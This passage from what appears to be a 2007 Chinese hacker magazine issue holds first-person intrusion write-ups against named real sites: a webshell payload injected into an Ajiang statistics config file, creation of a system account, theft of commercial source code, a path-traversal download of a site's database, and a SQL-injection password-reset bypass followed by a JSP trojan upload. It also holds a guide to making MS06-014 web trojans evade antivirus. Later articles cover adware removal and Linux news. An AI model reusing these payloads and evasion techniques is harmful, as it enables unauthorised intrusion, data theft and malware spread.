从图 1 中我们知道上面的那个参数 vodid 明显跟视频文件存放的路径有关，因为里面用到了 mappath 方法来找物理路径，再次提交 and 1=1 和 and 1=2 返回的结果还是一样，最终放弃了这个点。接着我们发现这个报告厅系统能提交的参数不多，而且是单单一个 guest 账号供大家公用，要是能有源代码分析该多好呀（有了源代码还用得着入侵吗？汗！）最后没有发现任何可以注入的地方，而且旁注这方法只是对外网的主机有效，这里是校园内网也干不了什么。不过我想既然我们学校拿这账号进后台瞅瞅。后台可真的十分简陋，连图片都要靠引用的，没一个上传的，搞了半天就等于没搞，如图 5 所示。


回到我来，我在边角的地方看到了一个“流量统计”的功能，进去一看，原来是阿江统计 2.1 系统，管理员没想到我会来，所以版权的信息也没改掉。

## 三、阿江统计的致命伤

总算找到了一个非商业的系统了，阿江的 ASP 探针大家可能比较熟悉了，很多整站都一直在用，它的流量统计做得如何呢？为此我上网下了一个同样的版本来读一读代码。了解了结构以后，把默认的数据库往地址栏上一输，回车出现如图 6 这个画面。

居然没改默认数据库名！天哪，管理员真的不晓得安全这码事。不过大家别说这太靠运气，其实阿江统计还是有几个注入点的，具体位置就留给大家作业吧。我们继续。

打开数据库，发现里面的管理员账号和密码都是没经过处理的，MD5 都省了，如图 7 所示。

有趣的是，居然密码和刚才新闻系统的是一样，现在的管理员真的是很不负责任。我们进到了后台，发现后台功能还是挺丰富的。刚才分析了看了下载回来的数据库里面包含了很少的信息，经过对比，发现如图 8 下面的数据并没有写进数据库。

比如像“服务器所在的时区”这些选项在数据库里是找不到的，这样就可以肯定这部分内容是写进了网站目录下的某个配置文件里了。大家可能已经知道我要干什么了，没错，就是要往配置文件里面插入一句话木马。如何实现呢？我们在本地先测试一下，自己搭建了同样的系统，配置文件是 inc_config.asp，我们在时区选项里面填入 hacker 这几个字符，然后修改保存。接着我们打开本地的 inc_config.asp 来看看，代码如下：

```asp
<%
    '默认站点的ID
    CFG_DefaultSite         = 1
    注释：这些就是我们提交的选项值，问题就出在这里。
    '服务器所在时区
    CFG_ZoneServer          = hacker
    'IP保存位数
    CFG_IPLong              = 1
    ……省略代码若干……
```

我们看到 CFG_ZoneServer 这个全局变量后面跟的是我们提交的 hacker 字符，那么服务器是怎么样处理的呢？我们来看看 sadmin_option.asp 的代码（仅选取部分）：

```asp
dim RCFG(9)
for i = 0 to 9
    RCFG(i)=Request.Form("CFG"&i)
Next    注释：这几句是把我们的提交内容放进 RCFG 这个数组里面
……跳过若干代码，下面是关键部分！……
if RCFG(4) <> "" then
    modelfile = server.MapPath("inc_config_model.asp")
    confile = server.MapPath("inc_config.asp")    注释：定位要写入的文件
    context = ReadTxtfile(modelfile)    '把文件内容读出放到 context 里面
    for i=0 to 9
        context = replace(context,"$CFG" & i,RCFG(i))
        '把我们提交的内容替换 context 里面的相应内容，就是说我们提交的内容没经过任何过滤就进入 context，这里是插入木马的关键。
    next
    WriteTxtfile confile,context    '这里木马就混进去了，保存文件。
    Response.Write "<tr><td>" & Lang_Option_ok & "</td></tr>"
```

我们都知道在 ASP 文件里面是可以一行执行多句的，只要用冒号隔开就行了，那我们要构造的字符就像这样子：8:eval(request("password"))，把上面的代码填到“服务器所在的时区”选项里面去就 OK 了。我们来测试一下猜想，回到后台把时区的选项改为上面那行代码，提交修改。接着用海洋的连接客户端连接上去，结果如图 9 所示。

我们已经成功拿下了 webshell 了。阿江的统计就这样轻松地被秒杀了（友情提示：该系统在网上用得很多，看罢本文相信大家拿 webshell 应该没问题吧？）。接下来的事情就简单了。

## 四、意外收获

像这样的机器设置一般不会太 BT，这台服务器上面就装了 Serv-U 5.0.0.4，一个比较古老的版本了，网上关于它的提权利用方法数不胜数。我们看看服务器数据，如图 10 所示。

能用的组件它都给你开放了，执行命令自然就没问题了，大家可以自由发挥。由于我们的目的就是那套商业代码（没钱买正版的），我就不用 3389 了，用 FSO 在服务器翻了个遍，终于找到了那套代码的位置，如图 11 所示。这里面的文件情况，打包它的文件夹很简单，我使用的是网上流传的用 wscript.shell 调用 WinRAR 方法，若对方安装了 WinRAR 并是默认安装的话，这样命令打包：

```text
c:\program files\winrar\rar.exe a D:\WEB_USER\www\bak.rar D:\WEB_USER\www
```

到这里我们的目标已经实现了，不过像学校图书馆的那个问题还没有解决哦，让我们继续完成这次图书馆之旅吧。解压网上报告厅，看看源代码，原来是 MSSQL 的数据库。从上图我们可以推断这个系统是由全自动的安装文件安装的，估计它的默认设置管理员就不会改。我们打开数据库连接文件 common.asp，看到如下代码：

```asp
connstr="driver={sql server};server=202.193.194.4;uid=ADKSVOD;pwd=ADKSVOD;database=adksvod"
```

这些正是连接数据库的敏感信息，看得出这个就是默认的。

好，我们来用这个对自己学校那台服务器的数据连接一下看看，拿出 sqltool，如图 12 所示。

填上信息后就连接上去了，看看是什么权限，执行一下命令：

```text
net user morephaze 234689 /add
```

如图 13 所示。

哈哈，竟然是系统权限！这下就方便了，直接用 SQL 综合利用工具传个 3389.bat 上去就大功告成了。接下来的图就不截了，玩得也差不多了。

## 五、总结

先说入侵方面，关于信息的重要性我不用多说了吧？本文的技术含量不高，但我认为思路很重要，这也是针对特定目标制定的方案，而不是用一些傻瓜工具去漫无目的地扫注入点，只有这样才能真正使自己得到提高。另外要说的是默认的东西是很方便，但同样也很脆弱。防御方面，策略有很多，但归根到底还是意识问题，统计系统有漏洞不是管理员的错，但让人家知道自己的底细就是管理员的失职了。个人认为本文不可能给大家提供太多技术性的东西，但希望可以给需要的人提供一个思路和方向，希望大家读罢此文能在新年里找到一些有价值的东西，给各位拜个早年了。

> [文章中用到的工具 nbsi、sqltools、open3389 已收录在本期光盘]

编辑点评：文章中的出彩地方是利用阿江统计系统拿 webshell 的方法，但是没有写阿江统计系统的注入点在哪，可能有些读者会不太满意啊。

> 从本文中你可以学到：
> 新云下载的入侵方法

## 渗透中国网络战队

hacklu

一日闲来无事，对一个黑客站点进行了测试。www.chnping.com/ 号称中国最大的民间网警组织，今天对其进行了一下测试，安全方面做得好像不是太好。一般测试黑客网站我们考虑旁注，或者渗透一个网段的 IP，然后嗅探等获得目标权限。打开目标站点发现使用的是新云全站系统，图 1 所示。

新云最近出现过滤不严导致可下载任意文件。知其然，知其所以然。我们先看看漏洞产生的原因。问题出现在 flash/downfile.asp 上，来看看漏洞，代码如下：

```asp
<%
Dim url, strUrl, strPath
url = Replace(Replace(Replace(Request("url"), "'", ""), "%", ""), ";", "/")
'首先先进行一些字符的替换，' 换成空，% 也换成空，; 换成 /

If Len(url) > 3 Then '只判断前 3 个字符
  If Left(url,1) = "/" Then
    Response.Redirect url '如果用户提交的 url 第一个字符是 /，那直接转向 url
  End If
End If

If Left(url,3) = "../" Then
  Response.Redirect url '同上，意思就是不给你用 ../ 跳转目录
End If
strUrl = Left(url,10)
If InStr(strUrl, "://") > 0 Then
  Response.Redirect url
End If
If InStr(url, "/") > 0 Then
  strPath = Server.MapPath(".") & "/" & url '补充物理地址了
  strPath = Replace(strPath, "/", "\") '替换 / 为 \
  Call downThisFile(strPath) '这里是关键，开始下载了
Else
  Response.Redirect url
End If
End If

Sub downThisFile(thePath)
  Response.Clear
  On Error Resume Next
  Dim stream, fileName, fileContentType

  fileName = Split(thePath, "\")(UBound(Split(thePath, "\")))
  Set stream = Server.CreateObject("adodb.stream")
  stream.Open
  stream.Type = 1
  stream.LoadFromFile(thePath)
  Response.AddHeader "Content-Disposition", "attachment; filename=" & fileName
  Response.AddHeader "Content-Length", stream.Size
  Response.Charset = "UTF-8"
  Response.ContentType = "application/octet-stream"
  Response.BinaryWrite stream.Read
  Response.Flush
End Sub
```

```asp
stream.Close
Set stream = Nothing
End Sub
%>
```

一般下载文件都对 URL 做了过滤，这个也处理了。不过它只判断 url 的前三个字符而已。也就是前三个字符不能是 ../。如果我们后面构造 ../，它根本没有判断。我们提交：http://www.chnping.com/flash/downfile.asp?url=hacklu/../../../conn.asp。呵呵，数据库的连接文件 conn.asp 出来了，如图 2 所示。

我们打开 conn.asp 文件看一下是 SQL 的数据还是 ACCESS 数据库。如果是 SQL 的数据库我们可以用数据库连接程序连接它。不过好像这个黑客站点用的是 ACCESS 的数据库。看看 conn.asp 里的代码：

```asp
<%
Option Explicit
Dim startime, Conn, db
Response.Buffer = True
startime = Timer()
'——定义数据库类别，1 为 SQL 数据库，0 为 Access 数据库
Const IsSqlDataBase = 0
Dim NowString
Dim ConnStr

If IsSqlDataBase = 1 Then
    '——SQL 数据库连接参数——
    Dim SqlDatabaseName, SqlPassword, SqlUsername, SqlLocalName
    NowString = "GetDate()"
    SqlDatabaseName = "newasp"  '数据库名
    SqlUsername = "sa"          '用户名
    SqlPassword = "newasp"      '用户密码
    SqlLocalName = "(local)"    '连接名（本地用 local，外地用 IP）
    ConnStr = "Provider=Sqloledb;User ID=" & SqlUsername & ";Password=" & SqlPassword & ";Initial Catalog=" & SqlDatabaseName & ";Data Source=" & SqlLocalName & ";"
Else
    '——ACCESS 数据库连接——
    NowString = "Now()"
    'ACCESS 数据库连接，请使用根路径或者绝对路径
    db = "\chnpingdata\#newasp.mdb"
    ConnStr = "Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & ChkMapPath(db)
End If

Dim DBPath
'——采集数据库连接路径
DBPath = "/chnpingdata/#Collection.mdb"
请用相对路径

Sub ConnectionDatabase()
    On Error Resume Next
    Set Conn = Server.CreateObject("ADODB.Connection")
    Conn.Open ConnStr
    If Err Then
        Err.Clear
        Set Conn = Nothing
        Response.Write "数据库连接出错，请打开 conn.asp 文件检查连接字符串。"
        Response.End
    End If
End Sub
%>
```

从上面的代码我们可看出这个网站用的是 Access 的数据库，而且连接库的路径都出来了。我们把 \chnpingdata\#newasp.mdb 改成 \%23newasp.mdb，然后下载，如图 3 所示。

成功下载了吧，下面用明小子打开数据库，再打开管理员的表，然后到 www.cmd5.com 查一下 MD5 值。还好密码不是那么强悍，成功得到了密码，如图 4 所示。接下来的事情就是找后台了。新云系统默认的后台是：admin/admin_login.asp。黑客站点就是黑客站点，默认的后台已经被隐藏了。把明 D、明小子、HDSI 请出来轮番上阵，可惜都没能猜出后台。把 GOOGLE 请出来，打上：“管理员登录 site:www.chnping.com”，因为这个登录页面的标题是“管理员登录”。可惜还是没有猜出后台。

不知是管理员的目录改了，还是把 admin_login.asp 文件改了。随手在网站的目录提交 admin/，发现是 404 错误，看来是把目录改了。那么文件名不一定改，再次在 GOOGLE 打上：“site:www.chnping.com inurl:admin_login.asp”，这是搜索网站有 admin_login.asp 文件的网址，不过还是没有出来。郁闷。查看数据库里的其他数据表，发现一个前台管理员的用户名（这个直接可以在注册用户的地方登录），可惜登录后发现权限太小，根本得不到 webshell 权限，如图 5 所示。

不可能就这样放弃吧。仔细想了一下，可能管理员用自己的用户名做目录呢。试了一下 chnping/admin_login.asp，没有成功；再试了一下 bghrzk/admin_login.asp，失败；最后连 chnping520 和 bghrzk123 等目录都试了还是失败。看来管理员目录设置得很 BT 呀。就这样试了 N 个小时以后，最后无意中试到 zk/admin_login.asp，没想到管理目录出来了，如图 6 所示。

呵呵，有点运气呀。直接拿用户名和密码登录后台。后台功能挺强大的，有上传的地方，也有数据库备份的地方。直接在添加下载地方上传改了扩展的 JPG 的 ASP 木马文件，像图 7 那样。然后备份数据库，这个大家都会了吧！我就不再重复了，和以前的动网差不多。最后访问一下路径，成功得了 webshell，如图 8 所示。

最后说一下如何修补。大家回到最上面的一段代码，它只是判断前三个字符不能是 ../，我们可以把代码改成：

```vbnet
If Len(url) > 100 Then
  If Left(url,1) = "/" Then
    Response.Redirect url
  End If
End If
代码略……
```

这样在提交：http://www.chnping.com/flash/downfile.asp?url=hacklu/../../conn.asp 时，就会什么也显示不出来，如图 9 所示。当然这并不是真正修补了漏洞。不过入侵者必须提交超过 100 的字符才能显示出来 conn.asp 文件，像 http://www.chnping.com/flash/downfile.asp?url=hacklu1111111……(达到 100 个字符)11111111111111111/../../conn.asp。不过入侵者一般不会提交这么长的字符，我们也可以设置 1000 或 10000 等等。

最后想说的是网络上没有绝对的安全，用这个程序的一般是商业网站和黑客网站。为了避免给大家带来不必要的麻烦，请大家不要选择商业站点进行测试。欢迎大家到 NOHACK OR IST 论坛和我交流。我的 ID 是：樱花浪子。

> **编辑点评：** 网上已经有新云下载的利用方法的文章了。但是这篇文章详细地分析了漏洞产生原因，并且给出了自己的补丁方法。渗透最大的民间网警组织，这也可以作为杂志的一个噱头，一个卖点，嘿嘿。NOHACK

## 简简单单 杀进中国电信

心雨

- 从本文中你可以学到：
- 一种破解密码的另类思路

今天用 GOOGLE 搜索中国电信公司的网站，发现有一个连接是“中国电信公司网站管理系统”（http://target/wcm/index.html），由于习惯便对这个管理系统的安全检测了一下，并成功地取得了权限！

下面就讲一下入侵的过程：打开“http://target/wcm/index.html”可以看到这样一个登录页面，如图 1 所示。

初步测试有没有“or”漏洞，在用户名和口令里都输入“1'"or '1'='1' 点击登录，结果提示“找不到用户”，如图2所示（编辑：我的习惯都是输 'or'=' '，似乎更好用一点）。

看来漏洞不存在！再看看在“登录”的旁边有一个“忘记密码”的链接，应该是给管理员提供找回密码功能的，打开后显示如图3，要求输入管理员账号。一般我们常用的管理员的账号都是“admin”，在这里输入试一下管理员的账号是不是“admin”，在输入框内输入“admin”提交后，进入到另一个页面里，很幸运确实有“admin”这个账号（图4）。

到了这一步还真不好办了，要求输入问题答案，而答案我又不知道。随便试了几个都提示不对（图5），当我在图3的那个页面再随手输入一个“'”的时候显示出另一个页面，如图6所示。

用单引号暴出了数据库查询语句的代码：**SQL=select distinct USERID from WCMUSER where UserName='admin' and ReminderAnswer=''**。可以看到用户名在数据库操作语句中是用“'”包含的，如果没有做过滤的话，只要提交“admin' /*”或“admin' --”来注释掉后面的语句（JSP 一般使用的是 MYSQL 或 MSSQL 数据库，“/*”和“--”都是 MYSQL 和 MSSQL 里的注释语句），那么整个查询语句就为真，应该可以查询成功！返回上页，在用户名称输入框里输入“admin' /*”显示出错（图7）。

再输入“admin' --”提交后，出现图8的界面。提交后可以正常显示答案查询的页面（图9）。那么在查询答案的语句就被“/*”给注释掉了，这样我们在答案里输入随便什么内容提交都是正确的（图10）。

提交后进到了另一个页面，这个页面让我激动了半天（图11），可以看到这个修改密码的页面！接着随便改个密码，再回到登录页面成功登录后台，如图12所示！

进入后台后在添加文章内容的地方没有做任何限制，直接传一个 JSP 木马便取得了 WEBSHELL（图13）。

这个入侵并没有很深的技术含量，漏洞也是很常见的注入！但是从这次入侵可以看出国内的网络安全还是存在着不足！

> 编辑点评：根据 SQL=select distinct USERID from WCMUSER where UserName='admin' and ReminderAnswer='' 这个 mssql 语句，那么在忘记密码的答案里直接输入 'or'=' '，就可以直接进入更改密码的页面；或者高级一点的语句用 'union select 1-- 也可以直接来到更改密码页面的地方。作者用的是 admin'--，直接注释掉后边的答案查询语句，再胡乱写答案提示问题通过验证，也是一个很好很巧妙的思路。作者与我的思路谁更喜欢，读者们萝卜白菜各有所爱吧。另，因为中国电信这个网站太敏感了吧，我把作者提供的 URL 隐藏了。

> 免杀栏目首语  
> 小“马”的称呼源自古希腊的特洛伊战争，在这场战争中木马发挥了决定性的作用，然而当这样的木马被大众所知，那么其作用也就消失殆尽了，小黑黑们的马儿也同样是此道理，因此便诞生了免杀！  
> ——蜀国布衣

## 网页木马免杀简介

- 从本文中你可以学到：
- 网页木马的各种免杀方法

网页木马是现如今获取肉鸡的最主要途径之一，可是很多网友却是埋怨不好用，因为总是被杀毒软件所查杀。其实这些网友可能忘记了，网页木马是由网页脚本和木马程序两部分组成的。虽然木马程序被用户进行了免杀处理，但是网页脚本却没有进行免杀设置，以至于网页木马“出师未捷身先死”。

最近网友制作网页木马，主要是利用 MS06-014 漏洞，现在网络上的大部分稳定的网马生成器，也就是沿用这个漏洞。今天我们就以 MS06-014 漏洞的网页木马为蓝本，为大家介绍一些常见的网页木马免杀方法，以供大家在网页木马免杀时进行参考。最早的 MS06-014 网页木马生成器所利用的原代码是占有者编写的，如图1所示。从图中我们可以看到，这段代码没有经过任何的免杀处理，而随后推出的网页木马生成器都是在这段代码的基础上演变而来的。

### 加密

网页木马免杀方法最常用，也是最简单的办法就是“加密”，这就好比我们对木马程序最常用的加壳一样。由于杀毒软件定位特征码通常是提取文件中的某一段或多段的代码，加密后可以看到标签里的代码发生了变化，而杀毒软件进行特征码对比的时候就查找不到，这样就躲过杀毒软件的查杀。

加密的方法有很多，不过利用微软自己的 JScript.Encode 脚本的转换实现，或者用户自己编写加解密函数效果会更好。所谓加解密是通过 Unicode 码的转换实现的，现在网上这种在进行 JScript.Encode 加解密的网页有很多，但经过试验中文文字太多会导致你的页面代码膨胀，英文反而有压缩效果。用户只需将需要加密的源代码粘贴在网页的输入框内按“Encode 解密”按钮即可，如图2所示。需要用户注意的是，加密时应该只对脚本部分进行加密，不加密脚本标记 `<script language="javascript">`，并且加密后脚本标记应改为：`<script language="JScript.Encode">`。

### 改特征码

网页木马和木马程序一样，之所以被杀毒软件所查杀，就是因为网页代码中的一段被杀毒软件收录到了病毒库中，所以改特征码也是网页木马躲过杀毒软件的免杀方法之一。要想修改特征码，首先需要查找到特征码的位置，可是网页木马并没有类似于 CCL、MYCCL 这样的工具可以使用，所以最简单的查找方法就是“拆半法”。

拆半法是将网页木马用记事本程序打开，将网页代码平均分为 A 和 B 两部分。先将其中的一部分代码删除掉，接着对剩余的这部分代码进行特征码查找。如果这部分代码出现两层以上的特征码，就再将这部分特征码再半定位，依此类推最终成功定位出特征码的确切位置。找到特征码以后，可以通过对关键字大小写的替换来进行免杀。当然也可以通过调换网页代码的顺序来进行免杀。

### 变形（变异）

通过对网页木马代码进行变形（变异）处理，也可以很好地躲过杀毒软件的检测。网页代码变形（变异），就是通过另一种方式将代码的意义表达出来。这里所指的就是将一些关键字进行分割，当然并不是任何字符都能成为关键字的，只有在源代码里使用双引号括起来的字符才能当作关键字，比如：“object”、“Scripting.FileSystemObject”、“Shell.Application”等。大家请看原始代码 `<script language="VBScript"></script>` 后的语句，接着再和下面变形后的代码进行比对，很容易就发现我把括号中包含的内容都声明成了变量，然后在代码里直接引用变量就可以了。

```vbscript
a1="Adodb."
a2="Str"
a3="eam"
str1=a1&a2&a3
nohack1=str1
set S = df.createobject(nohack1, "")
```

发现差别了吗？实际上每个关键字都可以这样处理，大家自己举一反三吧。

### 00 替换法

“00 替换法”是在网页木马的源代码中的任意位置加入一串或多串空格，接着用十六进制工具打开这段代码，最后用十六进制的“00”替换十六进制中表示空格的“20”即可。通过以上这样的操作，就可以成功躲过包括卡巴斯基在内的一些杀毒软件的查杀。

首先用记事本打开 MS06-014 网页木马的代码，我们在任意位置加入长短不等的空格，这里我就在 “Scripting.FileSystemObject”、“Shell.Application”、“Microsoft.XMLHTTP” 等位置加入空格，如图3所示。

接着用 UltraEdit 打开这段代码，点击“编辑”菜单下“十六进制功能”中的“十六进制编辑”，找到代表空格的“20”将其替换为“00”，如图4所示，最后保存就已经免杀成功了。

### 修改函数名或代码

通过修改函数名或代码，也能起到免杀的作用。不过在做网马的免杀时，我们需要先弄清楚它的工作流程，再动手修改代码。有高手曾经说过，网页木马是三分漏洞、七分脚本，可见脚本代码在网页木马中的重要性。既然有脚本代码的存在，那么函数一定是缺少不了的。

比如 MS06-014 网页木马中就包括 fname1、a1、str1、df 等，这些函数都是可以进行任意修改的，用户只需要注意前后修改函数名称的一致性就可以了。这里我们只需要将 `S.open` 语句移动到 `fname1 = F.BuildPath(tmp, fname1)` 语句之前，就实现了网页木马免杀操作，这正是挫败很多杀毒软件的文件流特征码检测技术。当然在移动语句的时候，有必要注意语句在代码里的功能，不然的话网页木马就会出错的。除了修改函数名称外，某些网页代码也可以进行修改，比如“fname1="g0ld.com"”这一句，我们就可以对函数后面的“g0ld.com”进行任意的修改。这里除了可以对文件名称进行修改以外，还可以对文件的后缀名进行修改，比如将后缀名 `.com` 改为其他的可执行后缀名，如 `.bat` 或 `.exe` 等。

### 小结

今天简单地为各位网友介绍了一些网页木马的免杀方法，从此以后各位就可以通过上面介绍的这些内容来对自己的网页木马进行免杀操作。当然由于现在杀毒软件功能的不断提升，想要通过其中的一种方法就通过大多数杀毒软件是不现实的，所以用户还需要通过几种方法的组合使用才行，这样不但增强了自己的免杀能力，也不用到处求高手帮忙了。

> （作者提到的占有者编写 MS06-014 网页木马已经收录在光盘中）

**编辑点评：** 作者列举了网页木马的种种免杀方法，虽然看来每一个想法都是那么简单，但是其产生的效果可不能小觑，真的做到了出奇制胜。

## NTFS 巧设限 远离流氓软件

> **毒语**  
> 对付病毒，要毫不留情，不择手段，把一切病毒的阴谋统统粉碎，因此一定要出奇招，本期就给大家带来两招。

崔峰

### 从本文中你可以学到：

- 1、NTFS 权限如何设置
- 2、金山毒霸系统清理专家的使用方法

现在的流氓软件真是无孔不入，让人深恶痛绝，尽管我们在上网的时候小心又小心，但还是防不胜防啊！有人说了，流氓软件也是软件，我们把它卸载了不就行了？但孰不知这流氓软件称作流氓软件也不是浪得虚名的，它自带的卸载程序根本就不起作用，如果我们硬来就会出现这样的情况，如图1所示。

那我们就奈何不了它了吗？其实并非如此。我发现通过 NTFS 的权限设置再加上“金山毒霸系统清理专家”的帮助，我们就可以轻松地把流氓软件清除了。具体做法是这样的（以雅虎助手为例）。首先系统必须是 2000 或 XP，而且文件系统为 NTFS，不过现在大家差不多都是这样的吧。然后找到流氓软件的藏身之地，雅虎助手是安装在“c:\program files\yahoo!”这个文件夹下面的，然后我们右击这个文件夹，选“属性”，然后选择“安全”选项卡，再点“添加”，在弹出的窗口中输入“Everyone”然后确定，再把“Everyone”用户的权限修改成如图2所示，然后确定。

这样这台机器上所有用户都没有权限对这个文件夹进行访问了，因为流氓软件都是开机启动的，如果我们把它的文件夹弄成所有用户都无法访问，那开机它就没办法启动了，如图3所示。

接着我们就可以对它任意宰割了，下面我们就重启一下机器，然后我们再把“YAHOO!”这个文件夹的权限改成可以完全访问，否则是无法删除的，如图4所示。

然后打开“金山毒霸系统清理专家”，选择“文件粉碎器”，然后在弹出的窗口中点“添加文件夹”，选择到“yahoo!”这个文件夹，如图5、图6。

最后一步，点击彻底删除，连续点击两下“是”之后，那个文件夹也就被删除了，如图7所示。

如果你不想那么麻烦，可以跳过删除的那一步，也就是只把文件夹的权限设置好，不删除，反正软件的“老家”都被封了，那软件也就自然无法正常运行了，而且这样也就等于给机器打了疫苗，因为流氓软件的安装是“一步到位”的，它不会让用户指定安装目录，所以如果在那个目录下有个和软件安装目录同名的文件夹，却没有权限写入，这样它就安装不成了，如图8所示。

另外再说一下，其实“金山毒霸系统清理专家”这个软件也可以清理流氓软件，但是有一些是无法完全清除的，而使用上面的方法绝对可以完全删除流氓软件。好了，希望大家都能远离流氓软件。

> （作者提到的金山毒霸系统清理专家已经收录在光盘中）

**编辑点评：** 想必作者一定是对 NTFS 的运作有一定的了解，利用 NTFS 的权限限制了流氓软件的老窝，使其不能执行，很巧妙的想法，利用起来虽然有些麻烦，但可以 100% 消灭流氓软件，好方法，值得推荐！

### 禁毒行动

### ——一次艰难的杀毒过程

花非花[L.S.T]

- 从本文中你可以学到：
- 1、了解恶意程序双进程守护
- 2、使用组策略中的软件限制策略进行恶意程序的清除

### 中毒起因

今天研究一款 ASP 程序的时候要用到抓包工具 WSockExpert，但是 NOD32 把那个 DLL 文件杀了，搞得很不爽，把 NOD32 删掉了。做完测试，跑去上课，回来上电脑，看到我的 E 盘里面有这么两个文件，如图1所示。

直觉和经验告诉我，电脑中毒了，后来问了室友，他说上了个 H 网。我每个盘都翻了一遍，除了 C 盘没有之外，其他盘都有。不过，我的机器之前是禁止了所有驱动器自动运行的，所以那些 autorun.inf 文件根本就没派上用处。

### 禁毒行动

既然中毒了，肯定不能置之不理吧。于是打开任务管理器，却闪了一下就不见了；又在“开始→运行”输入：regedit，也是一闪而逝。我不信制服不了你，打开超级兔子的魔法设置，如图2所示。

再打开左边的“启动程序”，果然中毒了，启动项里有两个可疑的程序，不小心被删了一个，如图3所示。

既然任务管理器和注册表都闪了腰，那么就用“超级兔子任务管理器”。打开左边的“进程”按钮，看到了两个鬼祟的进程，如图4所示。

既然如此，别怪我心狠手辣了。在上图中的状态栏有那个进程所在的目录，进入其中，看到那个空格.exe 的文件了，而且还看到了其他 N 多病毒文件，如图5所示。在兔子的任务管理器中终止空格.EXE，如图6所示。

进程终止了，赶紧删除文件。不过却不让我删。我猜可能是 wuaucll.exe 这个进程在保护它，或者它们两个相互保护。接着就把 wuaucll.exe 终止了，再去删除那两个可疑程序，仍然无功而返。没办法了，只好重启到安全模式去杀。可恨的是，到了安全模式，那个空格.EXE 仍然被加载运行了。难道真的就没有办法了？突然想到了组策略中有个软件限制策略，试一下用软件限制策略，先禁止两个可疑程序的运行。

说干就干，打开“开始→运行”，输入：gpedit.msc，定位“计算机配置→Windows 设置→软件限制策略→其他规则”。一般没有创建过“软件限制策略”的，要先创建一个。

先来创建一个路径规则。右键单击“其他规则”，打开“新路径规则”，如图7所示。

在弹出一个“新路径规则”对话框，打开“浏览”，选择 wuaucll.exe 文件所在的路径，将安全级别设置为“不允许的”，如图8所示。

然后按照同样的办法，来限制空格.EXE。

好了，做好规则之后，到兔子里结束那两个可疑进程（原来没做规则时，结束了又自动复活，设置规则后再结束进程，就复活不了了）。结束了进

程，再次到目录下去删除，仍然删不了。没关系，重启一下后打开兔子的任务管理器，终于那两个进程没有再出现了，现在可以光明正大地去 KILL 它们了。一切完成之后，到软件限制策略里，把那两项规则删除。虽然可疑进程是清除了，但文件关联却被破坏了，任何 EXE 文件都执行不了，如图 9 所示。

瑞星公司的一款叫 RegClean.com 的注册表修复工具有恢复文件关联的功能。打开 RegClean.com，如图 10 所示。

把所有的文件关联都打勾（也可以用它的扫描功能，看是否有被破坏的文件关联和注册表），再打开“操作”菜单，选择“修复”。

这样，整个修复就算完成了。再试一下，打开任务管理器和注册表都没问题。

> （作者提到的 RegClean.com 注册表修复工具已经收录在光盘中）

**编辑点评：**组策略是微软提供的一个小巧的，却不失为管理系统的极好东西，其中有很多功能都很实用，本文的作者仅仅使用了“软件限制策略”就达到了其目的，相信在这之中还有很多功能有待大家去“开发”。

很高兴能在 2007 年的第一时间再次见到大家，一月是一个新的开始，2 年不到的时间《黑客手册》成长了许多，也不断地得到大家的帮助。在这里要感谢大家对《黑客手册》的厚爱！谢谢众多读者的支持。

本期“窗外”为大家详细剖析了 Novell 公司与 Microsoft 公司的联盟事件，从开始的和谐到现在的对簿公堂。在熟悉了 Windows 下用虚拟机玩转 Linux 之后，你是否已经转入了真实的 Linux 环境呢？如果已经开始脱离虚拟 Linux，那么你一定想在 Linux 下用 VMware 玩 Windows 了吧？本期更为大家带来一款实用的桌面工具，不但可以美化桌面，更可以方便你对系统的监视哦～

在上一期的 Linews 中，我们提到了微软与 Novell 公司的联盟。那么今天，情况如何了？Novell 与 Microsoft 的惊人联盟毕竟究竟意在何方？社区能否承受这次突变？Microsoft 是否想要改变开源？敬请关注本期 Linews！

## 1. 敌人的敌人是朋友：微软、Novell 联手对付 Red Hat

Novell 和 Microsoft 两家公司公布了技术和法律合作关系，使用户能够更好地整合两家公司的技术，无须担心会因此而惹上官司。微软—Novell 合作成为了许多媒体报道的热点：长期的宿敌将在专有软件和开放源代码软件之间架起一座桥梁。

> lala 点评：初看这则新闻并不觉得惊讶，之前微软就释放了多次要与 Linux 社区合作事宜的信息，但一向是单方面行为，并没有互动。此次出手就与 Novell 合奏，在性质上恐怕不再是 Windows & Linux，而是 Novell & Microsoft。它们不再是两个软件之间的关系，而是两家公司之间的关系。公司的联手必然将涉及许多经济问题。简单的想法是：微软会和 Novell 联手发行一个 Microsoft Linux，它或许是 Suse 改名而来……

但可惜，一切并没有那么美好，噩梦刚刚开始……即使 Microsoft Linux 出现了，也依旧是为商业巨头而服务。

## 2. Red Hat 表态：Novell-微软合作是 Linux 的胜利

在 Novell 与微软公布合作关系数小时后，Red Hat 在其网站上发表了一份声明，声称这是 Linux，而非仅仅是 Novell 的胜利。Red Hat 还否认了与微软达成类似合作关系的可能性。

> lala 点评：在媒体大肆宣传 Novell 与 Microsoft 的联手可能会对红帽造成威胁的时候，红帽的此番发言无疑又重新将自己摆到 Linux 大哥的位置。宽容总会让人感受到它的胸襟。

## 3. 从微软与 Novell 结盟说起

我对开源运动发展的担心不在乎 MS 或 Oracle 有什么动作，而在于：①开源运动内部可能出现分裂。Richard Stallman 与 Linus Torvalds 关于数字版权管理（DRM）/GPLv3 之争，就有可能导致内部分裂；②开源运动要考虑如何从“对空炒作”中摆脱出来，在分布于全球的志愿者从事开源社区“集体开发、合作创新”机制基础上，探讨集聚开源精英人才的方式（使这批人才不再处于分散自流甚至流失的状态），以“实力政策”来把握开源运动潮流发展的主导权（Ubuntu、Red Hat、Google、OSDL 等组织均试图这样做，但不一定都能成功）。

> lala 点评：实际上这不是一则新闻，而是评论。lala 看中的就是最后一段。的确，在 Novell 和 Microsoft 联手之后，最先伤害开源的并不是微软，而是广大的社区。甚至已经有人在 BBS 上倡议大家不要使用 Novell 的 Suse……而“叛徒”之类的旗号也加到了 Novell 的头上。

## 4. Samba 团队对 Novell 微软合作表示不满

就在 Novell 和微软达成相关的技术和专利合作、业内一片看好的时候，Samba 团队发出了一丝“不和谐”的信号。最近，他们对 Novell 在 11 月 2 日的举动表示了强烈的不满。

> lala 点评：老牌的开源团体也动怒了……接下来会发生什么呢？

## 5. 鲍尔默：Linux 侵犯微软知识产权

微软 CEO 史蒂夫·鲍尔默日前表示，Linux 侵犯了微软的知识产权。对股东而言，这是一个问题。

